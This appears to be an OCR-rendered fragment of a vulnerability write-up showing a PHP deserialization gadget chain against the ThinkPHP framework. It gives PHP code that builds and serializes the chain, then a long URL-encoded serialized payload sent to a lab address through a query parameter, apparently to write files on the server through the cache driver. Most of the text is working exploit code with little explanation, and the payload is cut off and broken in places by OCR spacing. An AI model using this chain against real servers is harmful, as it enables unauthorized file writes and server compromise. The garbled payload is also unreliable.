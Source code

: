 ```php
class Query{
    protected $model;
    function __construct(){
        $this->model = new Output();
    }
}

namespace think\session\driver;#Memcached
use think\cache\driver\File;
class Memcached{
    protected $handler = null;
    function __construct(){
        $this->handler = new File();//Purpose call File->set()
    }
}
namespace think\cache\driver;#File
class File{
    protected $options = [];
    protected $tag;
    function __construct(){
        $this->options = [
        'expire' =0,
        'cache_subdir' =false,
        'prefix' ='',
        'path' ='./demo/',
        'data_compress' =false,
        ];
        $this->tag = true;
    }
}

namespace think\model;
use think\Model;
class Pivot extends Model{


}
use think\process\pipes\Windows;
echo urlencode(serialize(new Windows()));
```
# Vulnerability reappears
- Create a demo directory first

```bash
[payload=](http://192.168.246.129/public/index.php?d1no=O%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%33 BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A6%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22getError%22%3B%7Ds%3A8%3A%22%00%2A%00error%22%3BO%3A27%3A%22think%5Cmodel%5Crelation%5 CHasOne%22%3A3%3A%7Bs%3A11%3A%22%00%2A%00bindAttr%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A2%3A%22no%22%3Bi%3A1%3Bs%3A3%3A%22123%22%3B%7Ds%3A15%3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00que ry%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A% 22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%2 2expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A7%3A%22.%2Fdemo%2F%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6 %3A%22%00%2A%00tag%22%3Bb%3A1%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7D%7Ds%3A6%3A%22parent%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A %7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%2
```